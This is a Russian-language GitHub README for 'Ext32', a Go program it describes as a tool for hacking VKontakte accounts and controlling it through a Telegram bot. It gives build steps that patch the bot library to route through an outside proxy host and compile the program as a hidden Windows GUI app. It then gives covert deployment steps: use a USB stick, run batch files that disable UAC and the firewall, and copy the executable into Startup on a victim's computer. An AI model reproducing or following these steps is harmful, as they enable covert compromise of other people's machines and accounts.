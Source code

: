 # Ext32
Ext32 - программа для взлома ВКонтакте. 

Программа написана на языке программирования Go, и использует библиотеку [tgbotapi](http://github.com/go-telegram-bot-api/telegram-bot-api).
Поэтому перед сборкой выполните 
```
go get github.com/go-telegram-bot-api/telegram-bot-api
```
<h1>Внимание!</h1>
Так как Telegram заблокирован в России, для работы программы вам необходимо внести некоторые изменения в код.

Скачав библиотеку [tgbotapi](http://github.com/go-telegram-bot-api/telegram-bot-api), откройте файл bot.go и измените следующий участок кода:
```
func NewBotAPIWithClient(token string, client *http.Client) (*BotAPI, error) {
	bot := &BotAPI{
		Token:  token,
		Client: client,
		Buffer: 100,
	}

	self, err := bot.GetMe()
	if err != nil {
		return nil, err
	}

	bot.Self = self

	return bot, nil
}
```
на
```
func NewBotAPIWithClient(token string, client *http.Client) (*BotAPI, error) {
	bot := &BotAPI{
		Token:  token,
		Client: client,
		Buffer: 100,
	}

	proxyUrl, _ := url.Parse("http://kvmde58-13429.fornex.org:8008")

	bot.Client = &http.Client{
		Transport: &http.Transport{
			Proxy: http.ProxyURL(proxyUrl),
		},
	}

	self, err := bot.GetMe()
	if err != nil {
		return nil, err
	}

	bot.Self = self

	return bot, nil
}
```

<h1>Инструкция к сборке</h1>

* Откройте файл <b>Ext32.go</b> и в следующем блоке кода укажите собственнные данные:

```
const (
	botToken   string = "YOUR_BOT_TOKEN"
	userChatId int64  = YOUR_CHAT_ID_FROM_TELEGRAM
)
```

* Скомпилировать программу нужно со следующим флагом

```
go build Ext32.go -ldflags -H=windowsgui
```
<h1>Инструкция к запуску</h1>
* Вставьте флешку
* Запустите от имени администратора файл **Отключить UAC.bat**
* Запустите от имени администратора файл **Отключить фаервол.bat**
* Запуститие файл Copy.bat, который скопирует exe-шник в Автозагрузку
* Если возможно, перезагрузите компьютер, иначе придеться ждать пока пользователь сам перезагрузит компьюетр, ведь программа начнет работать лишь после первой перезагрузки!
* Все! Отточите навык, и вы сможете проделать весь процесс менее чем за 10 секунд
* После того, как программа запуститься сама после перезагрузки, вам в Telegram-боте придет уведомление об этом, и вы сможете управлять процессом взлома через своего бота. Удачи!
